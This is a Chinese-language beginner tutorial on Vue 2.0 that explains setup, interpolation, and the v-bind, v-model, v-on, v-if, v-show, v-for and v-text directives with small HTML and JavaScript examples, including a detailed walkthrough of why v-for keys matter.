# 【Vue前端框架】Vue2.0全套教程


# 第1章：Vue核心

## 1.vue简介：

vue是一套用于**构建用户界面**的**渐进式**javaScript框架



**vue可以自底向上逐层的应用**


  简单应用：只需要一个轻量小巧的核心库


  复杂应用：可以引入各式各样的vue插件



vue2.0发布于2016年10月1日，vue3.0发布于2020年9月18日


### vue的特点：

#### 组件化

   采用**组件化**模式，提高代码复用率、且让代码更好维护


#### 声明式

  **声明式**编码，让编码人员无需直接操作DOM，提高开发效率

说明：

当有一个需求如下，需要将数据persons，放入容器list中：

```html
//数据persons
[
	{id:'001',name:'张三',age:18},
	{id:'002',name:'李四',age:19},
	{id:'003',name:'王五',age:20}
]

//list
<ul id="list" ></ul>
```

效果为：


**命令式编码**实现方式：

```js
原生javaScript写法

//准备html字符串
let htmlStr = ''
//遍历数据拼接html字符串
persons.forEach( p =>{
	htmlStr += `<li>${p.id} - ${p.name} - ${p.age}</li>`
});
//获取list元素
let list = document.getElementById('list')
//修改内容(亲自操作Dom)
list.innerHTML = htmlStr
```

**声明式**编码实现方式：

```vue
<ul id="list" >
    <li v-for="p in persons ">
    	{{p.id}} - {{p.name}} - {{p.age}}
    </li>
</ul>
```

#### 虚拟dom

3.使用**虚拟DOM**+优秀的**Diff算法**，尽量复用DOM节点



**diff算法：**

新生成的虚拟dom会和之前生成的虚拟dom比较，这个比较算法称为diff算法。

当新的虚拟dom中，存在与旧dom中相同的属性和内容值时，

vue就直接将旧的真实dom直接拿到页面渲染出来，再处理不同的部分



#### 原生js

4.学习vue之前需要掌握的javaScript基础知识

**ES6语法规范**：结构赋值、模板字符串、箭头函数等。[ES6基础-久远银海内部链接](http://172.20.23.216/website/docs/docs/learn/es6/es6基础.html
)

ES6模块化：默认暴露、分别暴露、统一暴露、import、isport等

包管理器：npm、yram、cnpm

原型、原型链：

数组常用方法：过滤一个数组、加工一个数组、筛选最值

axios：

promise：异步请求


## 2. vue官网使用指南

地址：[vue官网操作手册](https://v2.cn.vuejs.org/)


## 3.搭建vue开发环境

在没有脚手架的情况下，最原始的使用vue框架，就是在`.html` 文件中，引入`vue.js`包

```html
<!-- 开发环境版本，包含了有帮助的命令行警告 -->
<script src="https://cdn.jsdelivr.net/npm/vue@2/dist/vue.js"></script>
```

或者

```html
<!-- 生产环境版本，优化了尺寸和速度 -->
<script src="https://cdn.jsdelivr.net/npm/vue@2"></script>
```

在vue2的官方文档中，解释了两种引入vue的方式


### script直接引入

**首先先看第一种安装vue的方式：**

**CDN：**[阿里云CND操作文档](https://www.alibabacloud.com/help/zh/cdn/)

我们在写script的时候，里面有一个属性，叫src，可以指定资源的位置

如果把src写成："./xxx"的形式，为引入一个本地文件。如果写成"https"的形式，一般为了加速，会在其中加入一个CDN的标识


**CDN**

内容分发网络（Content Delivery Network，CDN）是建立并覆盖在承载网上，由不同区域的服务器组成的分布式网络。将源站资源缓存到全国各地的边缘服务器，供用户就近获取，降低源站压力。



官网两个vue版本，点击后均会进行下载，但下载的文件有些不同

为方便演示，将两个版本均下载在桌面，并新建一个文件夹取名为vue_basic，并用vscode打开


将引入写入html

```html
<!DOCTYPE html>
<html>
<head>
    <meta charset="UTF-8">
    <title>初识Vue</title>
    <!-- 引入vue -->
    <script type="text/javascript" src="../js/vue.js"></script>
</head>
<body>
    
</body>
</html>
```

### 控制台提示

直接引入产生的控制台提示

打开写好的html页面，在控制台会出现两个`小提示`


`提示`解析：

```
Download the Vue Devtools extension for a better development experinence:

//表示：请你下载vue的开发者工具，到达一个更好的开发体验
```

```
You are running Vue in development mode.

//表示：你正在运行一个开发者模版的vue.

Make sure to turn on production mode when deploying for production.

//请确认你的项目不在生产时使用 [此句话意思表明，你引入的是vue.js其中带有很多提示和警告，包比较大，不适合上线项目使用]
```

#### 开发者工具

解决 下载vue开发者工具 的问题

- **国外网络可以正常访问谷歌商城：**

正常能打开gitHub，点击官网的下载链接过去，选择谷歌浏览器选项


进入谷歌网上应用商店，点击添加，完成


国内无法正常访问谷歌商城：

Vue开发者工具扩展链接： 

【下载开发者工具】： https://pan.baidu.com/s/1MtYvMPew4lb14piIrs9x6w  提取码：6666 【安装开发者工具】：

 一、Chrome浏览器安装方式： 

①：点击右上角三个点 

②：点击更多工具 

③：点击扩展程序 

④：点击右上角的开发者模式，将他启用

⑤：将下载的Vue.crx文件直接拖动到浏览器窗口即可 

⑥：点到扩展的详细信息界面，再开启【允许访问文件URL】选项再试试看


二：Edge浏览器安装方式

①：点击浏览器右上角的三个点

②：点击扩展 

③：点击左下角的开发人员模式，将他启用 

④：将Vue.crx文件拖动到浏览器即可

- **解决 vue.js不建议在上线项目中使用的提示**

`Vue.config` 是一个对象，包含 Vue 的全局配置。可以在启动应用之前修改下列 property(属性)

首先验证，`Vue.config` 是否存在：


这里的属性，是对vue的全局配置。一次修改，到处都可以使用。

此处的：**productionTip**: true 小提示默认为true，是默认开启状态


代码的body中键入下方代码，可以对提示进行关闭：

```html
<body>
    <!--关闭生产提示-->
    <script type="text/javascript">Vue.config.productionTip = false</script>
</body>
```

【注意：上方代码如果失效，则进入vue.js文件，直接对productionTip属性进行修改为false】


开端开发编辑工具vscode下载地址：[开端开发编辑工具vscode下载地址](https://code.visualstudio.com/)


## 4. Hello小案例

### html的基础写法

hello代码示例 【注意：此段代码是html的基础写法，并没有用到vue】

```html
<body>

    <!-- 准备一个容器 -->
    <div id="root">
        <h1>Hello</h1>
    </div>
</body>
```

### Live Server 插件运行

右键打开页面，控制台错误如下：


favicon.ico - 指网站的页签图标


打开控制台的Network选项卡，强制刷新一下[ 按住shift 点击刷新]，可以看见请求了本地5500服务器访问该图标


关于本地5500服务器的解释说明：

在vscode中，右键，使用Live Server 插件打开的页面：Live Server会自动先帮你打开当前选择的这个页面，并在你的电脑的5500的端口上开了一台小型的内置服务器，并且进行了“把你所有工程的文件和文件夹，作为这个服务器的根资源去使用”的一个操作。


验证内置5500端口服务器，可以地址栏直接访问127.0.0.1:5500。显示的一定是当前工程下的所有文件夹。


解决图标访问404的问题，只需要在根目录中放置一个叫favicon.ico的图片文件，页面刷新即可



**live server** 插件是一个具有实时加载功能的**小型服务器**，它的作用：

1. 模拟服务器的方式打开页面
2. 代码改动后,会自动刷新页面



vsCode中装`Live Server`插件。


### vue的写法演示

**使用vue进行hello的显示**

理解：引入的vue相当于外部引入的一个函数。要使用vue函数，需要new Vue

```vue
    <!-- 准备一个容器 -->
    <div id="root">
        <h1>Hello</h1>
    </div>

	<script type="text/javascript">
        //创建Vue实例
        /*
        * 注意Vue()中只传一个参数，这个参数是一个配置对象{}
        * 配置对象中，都以 key : value 的形式书写
        * 配置对象中，key的名称不得更改，value的值必须符合key的数据类型
        */
        const x = new Vue({
            //vue的第一个key是el，el是element元素的简写。
            //键值对象类似于css中的id选择器
            //el用于指定当前Vue实例为哪个容器，值通常为css选择器字符串。
            el:'#root'
            
            //还有一种写法，一般不用，但是可以这样写
            //指 人为找到这个元素，再给他配置到el里去
            el:document.getElementById('root')
        })
    </script>
```

```vue
    <!-- 如果用class不用id -->
    <div class="root">
        <h1>Hello</h1>
    </div>

	<script type="text/javascript">
        const x = new Vue({
            
           //el就写成css中类选择器的写法
            el:'.root'
        })
    </script>
```

利用插值语法

```vue
    <!-- 如果用class不用id -->
    <div id="root">
        <h1>Hello,{{name}}</h1>
    </div>

	<script type="text/javascript">
        const x = new Vue({
            el:'#root',
            data:{
                //data中用于存储数据，数据供el所指定的容器去使用
                name:'wangty'
            }
            
        })
    </script>
```

注意：data中的数据需要在指定的容器中使用，没在容器中使用data内数据并不会生效



三个注意事项：

1. 想让Vue工作，就必须创建一个Vue实例，且要传入一个配置对象；目前这里为：el、data

2. root容器里的代码依然符合html规范，只不过混入一些特殊的Vue语法；

3. root容器里的代码被称为【Vue模版】



**对于vue模版的解释：**

我们写的为一个Vue模板，经过解析，形成一个全新的正常的html片段块，然后替换掉模板的位置，显示在页面上


**容器的作用：**

1、为Vue提供模板

2、把Vue解析后的html片段，指定位置放置


## 5. 分析Hello案例

### 一对一关系

演示说明：容器和实例是一对一，一一对应关系

**有两个同名的容器的情况**：

首先，能运行成功，且控制台不报错


说明，一个Vue实例不能同时接管两个容器


**有两个Vue实例指向同一个容器的情况：**

首先，第一个Vue内容显示正常，第二个内容不显示，且控制台报错


说明，一个容器只能被一个Vue实例接管和解析


### {{  }}  中为js表达式


注意：{{  }}  中可以写的内容，不一定是Vue实例中声明过的。只要是js里的表达式，Vue都是可以解析的



注意区分:js表达式 和js代码(语句)

​	1.表达式: 一个表达式会生成一个值，可以放在任何一个需要值的地方:

​		(1).a

​		(2).a+b

​		(3).demo(1)

​		(4).x === y ? 'a’ : 'b'
​	2.js代码(语句)
​		(1).if( ){ }

​		(2).for( ){ }


### Vue的开发者工具

打开控制台右侧Vue选项卡


Root这里代表唯一的那一个Vue实例，点击这里的Root，能看的data里的所有数据


点击配置对象旁边的编辑按钮，可以对其值进行修改


```vue
<!-- 前端小写内容全部转换为大写的方法使用 .toUpperCase() -->
<h1>{{name.toUpperCase()}} </h1>

//name:'wangty'
// WANGTY
```


### 生产包和开发包

关于 vue.js 和vue.min.js 在new Vue实例对象时候的区别

当不写new的时候，vue.js：


当不写new的时候，vue.min.js并不报这个warning


## 6. 模板语法

### 6.1 插值语法

把指定的值，放到指定的位置，使用方法，见上述hello案例

【注意：插值语法多用于指定标签体内容。即，两标签之间的内容。不可以用于标签属性和属性值】

### 6.2 指令语法（内置语法）

【注：指令语法小结示例里包含了很多后面的东西，建议先跳过看完后面再看这一节比较好理解】

普通html，点击跳转地址写法

```html
<a href="https://www.baidu.com">点我去百度</a>
```

#### v-bind

vue写法

```vue
 <div id="root">
        <h1>指令语法</h1>
        <a :href="url">点我去百度</a>
<!--等价于<a v-bind:href="url">点我去百度</a> -->
    </div>

    <script type="text/javascript">
       new Vue({
           el:'#root' ,
            data:{
                url:'https://www.baidu.com'
          		//注意，这里如果写两个一模一样的属性名，控制台不会报错
                //Vue会默认读取第二个属性名的内容，这里就会默认跳转淘宝
                //url:'https://www.taobao.com'
            }
        })
    </script>
```

注意：这里的 ":href"中的冒号，是v-bind的简写。我们把类似于v-bind这样的语法称为，**指令语法**。


在html标签中，如果标签中的属性没有使用指定语法，则就是普通的属性和属性值

如果使用了指定语法，Vue就会把属性值引号内的东西，取出来当做表达式进行执行



##### Class 与 Style 绑定

操作元素的 class 列表和内联样式是数据绑定的一个常见需求。因为它们都是 attribute，所以我们可以用 `v-bind` 处理它们：只需要通过表达式计算出字符串结果即可。不过，字符串拼接麻烦且易错。因此，在将 `v-bind` 用于 `class` 和 `style` 时，Vue.js 做了专门的增强。表达式结果的类型除了字符串之外，还可以是对象或数组。

绑定样式:
	1.class样式

​		写法:class="xxx”xxx可以是字符串、对象、数组。

​			字符串写法适用于: 类名不确定，要动态获取。

​			对象写法适用于: 要绑定多个样式，个数不确定，名字也不确定。

​			数组写法适用于:要绑定多个样式，个数确定，名字也确定，但不确定用不用。

​	2.style样式
​		:style="{fontSize:xxx}"其中xxx是动态值。
​		:style="[a,b]"其中a、b是洋式对象

###### 绑定class样式

```vue
<!--正常的样式正常写，绑定的样式传值，字符串写法-->
<div class="basic"  :class="normal"></div>
....
data(){
	normal:'red'
}
....
<!--html解析后显示为  class="basic red"-->

<!----------------------------或者-------------------------------->

<!--正常的样式正常写，绑定的样式传值，数值写法-->
<div class="basic"  :class="arr"></div>
....
data(){
	arr:['red'，'yellow'，'buld']
}
....
<!--html解析后显示为  class="basic red yellow buld"-->
<!--按钮事件动态操作arr数组可以实现样式的改变-->

<!----------------------------或者-------------------------------->

<!--正常的样式正常写，绑定的样式传值，对象写法-->
<div class="basic"  :class="Obj"></div>
....
data(){
	Obj:{
        red:false,
        yellow:false
	}
}
....
<!--按钮事件动态操作Obj对象可以实现样式的改变-->
```


###### 绑定style样式

`v-bind:style` 的对象语法十分直观——看着非常像 CSS，但其实是一个 JavaScript 对象。CSS property 名可以用驼峰式 (camelCase) 或短横线分隔 (kebab-case，记得用引号括起来) 来命名：

```html
<div v-bind:style="{ color: activeColor, fontSize: fontSize + 'px' }"></div>
```

```js
data: {
  activeColor: 'red',
  fontSize: 30
}
```

直接绑定到一个样式对象通常更好，这会让模板更清晰：

```html
<div v-bind:style="styleObject"></div>
```

```js
data: {
  styleObject: {
    color: 'red',
    fontSize: '13px'
  }
}
```

同class一样，也可以写成数组，`v-bind:style` 的数组语法可以将多个样式对象应用到同一个元素上：

```html
<div v-bind:style="[baseStyles, overridingStyles]"></div>
```


#### v-model

##### 数据绑定


```vue
<div id="root">
      单项数据绑定：<input type="text" v-bind:value="name">
      <br/>
      双向数据绑定：<input type="text" v-model:value="name2" >
    </div>

    <script type="text/javascript">
       new Vue({
           el:'#root' ,
            data:{
                name:'wangty',
                name2:'wangty',
            }
        })
    </script>
```

页面效果：

Vue中有2种数据绑定的方式:
1.单向绑定(v-bind):数据只能从data流向页面,
2.双向绑定(v-model):数据不仅能从data流向页面，还可以从页面流向data。


##### 只适用于表单元素

**注意：不是任意的所有的地方都能使用v-model来进行双向绑定**

例：

```vue
<div id="root">
      <h3 v-bind:x="name">wangty</h3>
      <h3 v-model:x="name">wangty</h3> <!-- 该行代码是有问题的 -->
    </div>

    <script type="text/javascript">
       new Vue({
           el:'#root' ,
            data:{
                name:'wangty',
            }
        })
    </script>
```

上面的几行代码，首先在页面查看效果如下：


说明：**v-model**只能应用在**表单**元素上（输入类元素，有value值的元素）。

##### 简写形式

和v-bind一样，v-model有他的简写形式

```vue
<!-- v-bind简写 -->
<input type="text" v-bind:value="name">

等价于 =====>

<input type="text" :value="name">
----------------------------------------------------------------------

<!-- v-model简写 -->
<input type="text" v-model:value="name2" >

等价于 =====>

<input type="text" v-model="name2" >
```

#### v-on

##### 事件处理

事件的基本使用:
	1.使用v-on:xxx或@xxx定事件，其中xxx是事件名;

​	2.事件的回调需要配置在methods对象中，最终会在vm上;
​	3.methods中配置的的数，不要用箭头函数。否则this就不是vm了;
​	4.methods中配置的的数，都是被Vue所管理的函数，this的指向是vm或组件实例对象

​	5.@click="demo"和 @click="demo($event)”效果一致，但后者可以传参;

```vue
<div id="root">
        <h1>Hello,{{name}} </h1>
    	<!-- 简写形式  v-on:click =====> 等价于 @click  -->
        <button v-on:click="showInfo">点击实现提示信息</button>
    	<button @click="showInfo">点击实现提示信息</button>
    </div>

    <script type="text/javascript">
        //创建Vue实例
       new Vue({
           el:'#root',
           data(){
            return{}
           },
           //注意showInfo需要放在methods里。
           //这儿有个问题：可不可以放进data里呢？ 是可以的。
           //能够正常运行，且控制台不报错。但是会被Vue执行数据代理，加重Vue的负荷。
           methods:{
            //注意这里的showInfo方法也会存储在vm身上，打印vm时可以看见
            showInfo(a,b,c,d){
                //alert("提示");
                console.log(a,b,c,d);
            }
           } 
        })
    </script>
```


方法写在data里的情况，会使得vm对此方法进行数据代理。详解请看【数据代理】小结。


所以我们一般写点击事件只传一个参数，格式写为

```js
showInfo(event){
 console.log(event);
 //获取点击时间的触发目标，一般指按钮对象
 //使用event.target   
 console.log(event.target.innerText);  //按钮名称
 //这里的this也是Vue实例
 //这里showInfo如果写成箭头函数，则this指向会往外找到全局window
 console.log(this);   
}
```

注意，点击事件处理本来也是可以传入参的，及点击事件方法名后面带了()，但是此种写法搞丢了event点击事件的对象入参：

```vue
<button @click="showInfo(入参id)">点击实现提示信息</button>

showInfo(id){
 console.log(id); //结果为：入参id
}
```

若要使有()时，也能使用event点击事件对象，Vue中使用了$event来进行占位

```vue
<button @click="showInfo(id,$event)">点击实现提示信息</button>

showInfo(id,event){
 console.log(id); //结果为：入参id
 console.log(event); //结果为：点击事件对象
}
```

##### 事件修饰符

```vue
<!-- 点击后，a标签会默认跳转百度页面。 -->
<!-- 如果有需求，想要阻止默认跳转的操作 -->
<a href="http://baidu.com" @click="showInfo">点击</a>
<!-- Vue提供了事假修饰符.prevent -->
<!-- <a href="http://baidu.com" @click.prevent="showInfo">点击</a> -->
 
  showInfo(event){
       //或者点击事件event对象有一个方法，可以阻止标签默认调用事件
        event.preventDefault()
  }
```

js里的事件流分为**捕获阶段**和**冒泡阶段**——

Vue中的事件修饰符：

​	1、prevent：阻止默认事件（常用）

​	2、stop：阻止事件冒泡（常用）

​	3、once：事件只触发一次（常用）

​	4、capture：使用事件的捕获模式

​	5、self：只有event.target是当前操作的元素时才触发事件

​	6、passive：事件的默认行为立即执行，无需等待事件回调执行完毕（多用于滚动条事件：@wheel鼠标滚轮滚动 / @scroll 滚动条滚动 - 这个不会等待事件回调执行完毕）


##### 键盘事件

```vue
//两个键盘触发事件
@keydown   //按下该按钮，不用抬起来，就触发事件
@keyup     //按下该按钮，抬起来后，才触发事件
```

按下回车提示输入

```vue
<!-- 原生js写法 -->
<input type="text" @keyup = "showInfo">

showInfo(e){
if(e.keyCode !== 13) return   //回车的按键编码为13
  console.log(e.target.value);
}
<!-------------------------------------------------------------------->

<!-- vue事件别名写法 -->
<input type="text" @keyup.enter = "showInfo">

showInfo(e){
  console.log(e.target.value);
}
```

1.Vue给常用的按键都起了别名：

​	回车  =>  enter         删除  =>  delete （delete键和backspace退格键）

​	退出  =>  esc    	空格  =>  space

​	上  =>  up		 换行  =>  tab（特殊：必须配合keydown使用）

​	下  =>  down	    左  =>  left

​	右  =>  right

注意：键盘上每一个按键都有他的名字和编码，例：回车 - Enter - 编码为13，可以通过方法查看

```js
console.log(e.key,e.keyCode); //查看名字和编码
```

2.Vue未提供别名的按键，可以使用按键原始的key值去绑定，

但注意要转为kebab-case(短横线命名)，例：

```vue
//切换大小写按键的名字为  CapsLock  注意：是两个单词拼成，且为大驼峰
<input type="text" @keyup.cps-lock = "showInfo"> 
<!-- 这里需全部小写，且用-短线连接 -->
```

3.系统修饰键(用法特殊):ctrl、alt、shift、meta（win键）

​	(1).配合keyup使用:按下修饰键的同时，再按下其他键，随后释放其他键，事件才被触发。

​	(2).配合keydown使用:正常触发事件。

```vue
//ctrl、alt、shift、meta
//在使用keyup时：ctrl+任意按键 同时按下，并单独放掉+的任意按键
<input type="text" @keyup.ctrl = "showInfo">
<!-- 触发操作：同时按下ctrl+y，并单独放掉y。同时按下ctrl+x，并单独放掉x等  -->
```

4.也可以使用keyCode去指定具体的按键(不推荐)

```vue
<!-- 可以直接写13，但是官网已停止使用，可能部分浏览器已经不再解析  -->
<input type="text" @keyup.13 = "showInfo">
```

5.Vue.config.keyCodes.自定义键名 = 键码，可以去定制按键别名

```js
Vue.config.keyCodes.huiche = 13  //指定回车的别名为huiche
```

##### 事件总结

事件修饰符是可以连着书写的，顺序没有要求，例：

```vue
<!--先阻止冒泡，再阻止跳转 -->
<div @click="showInfo">
	<a href="http://baidu.com" @click.stop.prevent="showInfo">点击</a>
</div>
```

系统修饰键(用法特殊):ctrl、alt、shift、meta使用时候，可以指定关联的任意键，例：

```vue
<!-- 触发操作：只能同时按下ctrl+y，并单独放掉y，时候能够触发  -->
<input type="text" @keyup.ctrl.y = "showInfo">
```

#### v-if

##### 条件渲染

`v-if` 指令用于条件性地渲染一块内容。这块内容只会在指令的表达式返回 truthy 真实值的时候被渲染。

```html
<h1 v-if="awesome">Vue is awesome!</h1>
```

也可以用 `v-else` 添加一个“else 块”：

```html
<h1 v-if="awesome">Vue is awesome!</h1>
<h1 v-else>Oh no 😢</h1>
```

**在`<template>`元素上使用 `v-if `条件渲染分组**

因为 `v-if` 是一个指令，所以必须将它添加到一个元素上。但是如果想切换多个元素呢？此时可以把一个 `<template>` 元素当做不可见的包裹元素，并在上面使用 `v-if`。最终的渲染结果将不包含 `<template>` 元素。

```html
<template v-if="ok">
  <h1>Title</h1>
  <p>Paragraph 1</p>
  <p>Paragraph 2</p>
</template
```

##### v-else

你可以使用 `v-else` 指令来表示 `v-if` 的“else 块”：

```html
<div v-if="Math.random() > 0.5">
  Now you see me
</div>
<div v-else>
  Now you don't
</div>
```

`v-else` 元素必须紧跟在带 `v-if` 或者 `v-else-if` 的元素的后面，否则它将不会被识别。

##### v-else-if

2.1.0 新增


`v-else-if`，顾名思义，充当 `v-if` 的“else-if 块”，可以连续使用：

```html
<div v-if="type === 'A'">
  A
</div>
<div v-else-if="type === 'B'">
  B
</div>
<div v-else-if="type === 'C'">
  C
</div>
<div v-else>
  Not A/B/C
</div>
```

类似于 `v-else`，`v-else-if` 也必须紧跟在带 `v-if` 或者 `v-else-if` 的元素之后。

**用 `key` 管理可复用的元素**

Vue 会尽可能高效地渲染元素，通常会复用已有元素而不是从头开始渲染。这么做除了使 Vue 变得非常快之外，还有其它一些好处。例如，如果你允许用户在不同的登录方式之间切换：

```html
<template v-if="loginType === 'username'">
  <label>Username</label>
  <input placeholder="Enter your username">
</template>
<template v-else>
  <label>Email</label>
  <input placeholder="Enter your email address">
</template>
```

那么在上面的代码中切换 `loginType` 将不会清除用户已经输入的内容。因为两个模板使用了相同的元素，`<input>` 不会被替换掉——仅仅是替换了它的 `placeholder`。

自己动手试一试，在输入框中输入一些文本，然后按下切换按钮：

<ifarme>

<div id="key-example" style="margin-top:30px;margin-bottom:30px">
            <div v-if="loginType === 'username'">
              <label>Username</label>
              <input placeholder="Enter your username">
            </div>
            <div v-else>
              <label>Email</label>
              <input placeholder="Enter your email address">
            </div>
            <button @click="toggleLoginType">Toggle login type</button>
</div>
<script type="text/javascript" src="https://cdn.jsdelivr.net/npm/vue@2/dist/vue.js"></script>
<script type="text/javascript" >
new Vue({
                el: '#key-example',
                data: {
                    loginType: 'username'
                },
                methods: {
                    toggleLoginType: function () {
                    return this.loginType = this.loginType === 'username' ? 'email' : 'username'
                    }
                }
 })
</script>

</ifarme>

这样也不总是符合实际需求，所以 Vue 为你提供了一种方式来表达“这两个元素是完全独立的，不要复用它们”。只需添加一个具有唯一值的 `key` attribute 即可：

```html
<template v-if="loginType === 'username'">
  <label>Username</label>
  <input placeholder="Enter your username" key="username-input">
</template>
<template v-else>
  <label>Email</label>
  <input placeholder="Enter your email address" key="email-input">
</template>
```

现在，每次切换时，输入框都将被重新渲染。请看：

<div id="key-example" style="margin-top:30px;margin-bottom:30px">
            <div v-if="loginType === 'username'">
                <label>Username</label>
                <input placeholder="Enter your username" key="username-input">
              </div>
              <div v-else>
                <label>Email</label>
                <input placeholder="Enter your email address" key="email-input">
              </div>
            <button @click="toggleLoginType">Toggle login type</button>
</div>
<script type="text/javascript" src="https://cdn.jsdelivr.net/npm/vue@2/dist/vue.js"></script>
<script type="text/javascript" >
new Vue({
                el: '#key-example',
                data: {
                    loginType: 'username'
                },
                methods: {
                    toggleLoginType: function () {
                    return this.loginType = this.loginType === 'username' ? 'email' : 'username'
                    }
                }
 })
</script>

</iframe>

注意，`<label>` 元素仍然会被高效地复用，因为它们没有添加 `key` attribute。


#### v-show

##### 条件渲染

用于根据条件展示元素的选项是 `v-show` 指令。指定为true就显示，否则就不显示，用法大致为：

```html
<h1 v-show="true">Hello!</h1>
```

不同的是带有 `v-show` 的元素始终会被渲染并保留在 DOM 中。`v-show` 只是简单地切换元素的 CSS property `display`。



template模版标签，只能配合v-if使用，不能配合v-show



**`v-if` vs `v-show`**

`v-if` 是“真正”的条件渲染，因为它会确保在切换过程中条件块内的事件监听器和子组件适当地被销毁和重建。

`v-if` 也是**惰性的**：如果在初始渲染时条件为假，则什么也不做——直到条件第一次变为真时，才会开始渲染条件块。

相比之下，`v-show` 就简单得多——不管初始条件是什么，元素总是会被渲染，并且只是简单地基于 CSS 进行切换。

一般来说，`v-if` 有更高的切换开销，而 `v-show` 有更高的初始渲染开销。因此，如果需要非常频繁地切换，则使用 `v-show` 较好；如果在运行时条件很少改变，则使用 `v-if` 较好。


#### v-for

##### 列表渲染

​	对于列表渲染： [官网解释地址](https://v2.cn.vuejs.org/v2/guide/list.html)

v-for的4种用法

```html
<!--遍历数组 -->
<ul>
    <li v-for="(p,index)of persons" :key="index">{{p.name}}-{{p.age}}</li>
</ul>

<!--遍历对象 -->
<ul>
	<li v-for="(value,k)of car" :key="k">{{k}}-{{value}}</li>
</ul>

<!--遍历字符串-->
<ul>
	<li v-for="(char,index)of str" :key="index">{{char}}-{{index}}</1i> 
</ul>

<!--遍历指定次数 -->
<ul>
	<li v-for="(number,index)of 5" :key="index" >{{index}}-{{number}}</li>
</ul>
```

##### key作用与原理

​	官网解释地址：[key](https://v2.cn.vuejs.org/v2/api/#key)     【给每个遍历结点一个标识，相当于每一条数据的唯一标识】

​	我们在这里阐述一下v-for中使用的key的作用。

在Vue中v-for使用时，不使用key属性，并不会报错。

我们探讨

（1）使用key和不使用key的区别

（2）使用key的话，是使用遍历时的索引值index好，还是用数据的唯一标识入xx.id更好

------

**key的作用：给节点一个标识，相当于每一条数据的身份证号。**

###### 人员遍历示例

下面是一个添加人员在当前数组前方的一个示例：

```vue
<div>
    <h3>人员列表(遍历数组)</h1>
</div>
<div id="root">
    <button @click.once="add">点击添加一个人员</button>
    <ul>
        <li v-for="(p,index) of persons" :key="index">
            {{p.name}}-{{p.age}}
        </li>
    </ul>
</div>

<script>
    new Vue({
        el:'#root',
        data:{
            name:'wangty',
            persons:[
                {id:'001',name:'张三',age:18},
                {id:'002',name:'李四',age:19},
                {id:'003',name:'王五',age:20},
            ]
        },
        methods:{
            add(){
                const p = {id:'004',name:'添加的人',age:21}
                //在persons前方加这条数据
                this.persons.unshift(p);

            },
        }
    })
</script>
```

###### key关键字属性和其他自定义属性

​	自定义属性不能命名为key。	

​	这块儿注意，我们的代码中是对key进行了描述的。但是在Vue工作后生成的真实Dom中却并没有这个key的描述。

​	这里很明显说明了这里的key只是在Vue中进行使用的。当Vue工作完毕后，会对key进行销毁。

​	进过测试我们可以发现，Vue中使用的所有标签，都对key关键字属性进行了征用，而其他拼写的属性却并没有影响。



继续人员遍历示例：

现在我们在页面上点击添加人员的按钮，可以看见效果：人员添加在数组前方，控制台无报错，dom中标签也相应的生成。


目前看起来是没有什么问题的对吧？

这里是有问题的，只是这样看不出来而已。

###### 节点问题情境演示

我们验证这里的这个问题：

首先，我们在每个li标签后面加上一个input框【其实其他什么节点也是可以验证的，这里我们选择了直观一点的输入框】

```vue
<li v-for="(p,index) of persons" :key="index">
    {{p.name}}-{{p.age}}
    <input type="text">
</li>
```

页面效果如下：


此时，我们在每个输入框后面填入和每个遍历出来的li标签相对应的值。



之后，点击添加按钮。

这时候，我们发现：添加的人员确实出现在了数组的前方。但是本应该在添加人员后方的输入框诡异的出现在了数组的最后方。使得整个li标签和输入框错位显示。



当我们将key的值换成数组的唯一标识时:key="p.id"

```vue
<li v-for="(p,index) of persons" :key="p.id">
    {{p.name}}-{{p.age}}
    <input type="text">
</li>
```

运行效果可以看见，刚刚的问题不会出现


ok，到这里很清晰了：

key如果不写，或者写index时候，都会产生标签节点间相互错位这样的问题

------

###### 现象解释

我们由此在这里解释造成这一现象的原因：



​	这张图表示了整个页面生成的一个过程：

​	首先，Vue拿到data中的初始数据如图1，进行初始虚拟DOM的转换。

​	此时转成了图2中的三个li标签。这时，这三个标签的排列顺序是依赖key的值

​	之后Vue将图2的虚拟dom转换成真实dom，如图三。

​	我们就能在界面上看见三个标签节点和其分别对应的输入框节点。

​	这时，我们在输入框中输入了值。【注意：这个值输在了**真实的dom**上】

​	此时的虚拟dom并不知道发生了什么。

​	然后，我们点击了添加按钮。于是data中的数据发生了变化，它按照我们的要求在数组的头部加入了一条新的数据。

​	此时Vue再次进行工作，将新数据转成虚拟DOM。

​	转换完成后，Vue将进入虚拟DOM之间的对比。

​	在Vue虚拟DOM的对比算法中，是按照节点相互对比的。

​	对比的顺序是按照key的值来的。首先取的是两边key=0的那一行。

​	由于此处使用的key值是index，即数组的索引值，所以在数组发生变化时，索引的排列顺序也相应的发生了变化。新数据的索引变成了0，而原来的数据索引都依次向后移动了一位。

在新旧虚拟DOM中进行对比时，Vue发现，原来的0索引节点中：

​	标签节点'新添加的人'在旧虚拟DOM不是存在的，原来的标签节点是张三不可复用，所以只能新生成一个全新的真实DOM标签节点。

​	而，输入框的节点在旧虚拟DOM是存在的，能够进行复用，所以直接复用已在页面生成好的真实DOM输入框节点。

​	而，页面输入框的真实DOM节点中我们输入了‘张三-18’的内容。

​	由此产生页面上第一行的错误效果。

在一行一行的对比时发现，所有的标签节点均不可复用，所以Vue均进行了重新生成。【注意：这里存在一个效率低的问。：这里产生了重复工作，将已有的东西重新生成，导致了效率低下】

​	最后一行数据的对比时，页面发现没有输入框节点，所以新生成了一个输入框，而这个输入框我们没有输入任何东西。由此产生了页面上最后一行的错误效果。

------

如果使用数据的唯一标识id作为key，则对比时不会出现因为顺序导致节点错乱的情况。



------

###### 小总结

这里可以看出

（1）key的作用原理

​	当不写key时，是默认使用的index的方式进行的。

​	当key为index时，操作数据尤为注意不要改变数据排列的顺序。因为遍历完全依赖于数据的索引，数据索引受到数据排列顺序的影响

​	当key为数据唯一标识时，顺序固定且唯一，遍历不受数据顺序的影响。

（2）虚拟dom的对比算法

​	按照key值，一行一行的对比。

​	存在相同节点，则复用已经生成的真实DOM。

​	不存在节点，则生成全新的真实DOM，放入页面中

###### 补充

往数组里补充数据，插入在最前方用：.unshift，插入在最后面用：.push

```js
add(){
    const p = {id:'004',name:'添加的人',age:21}
    //在persons前方加这条数据
    this.persons.unshift(p);
    //在persons后方加这条数据
    this.persons.push(p);
},
```

#### v-text

向其所在的标签插入文本

```vue
<body>
    <div id="root">
        <!-- 两个在页面上的效果都是一样的 -->
       <div>{{name}}</div>           <!-- 显示wangty -->
       <div v-text="name"></div>     <!-- 显示wangty -->

       <!-- 但是我们常用的还是插值语法 -->
       <!-- 相较于v-text,插值语法显得更加灵活 -->
       <div>你好，{{name}}</div>      <!-- 显示：你好，wangty -->
       <div v-text="name">你好，</div> <!-- 显示：wangty -->

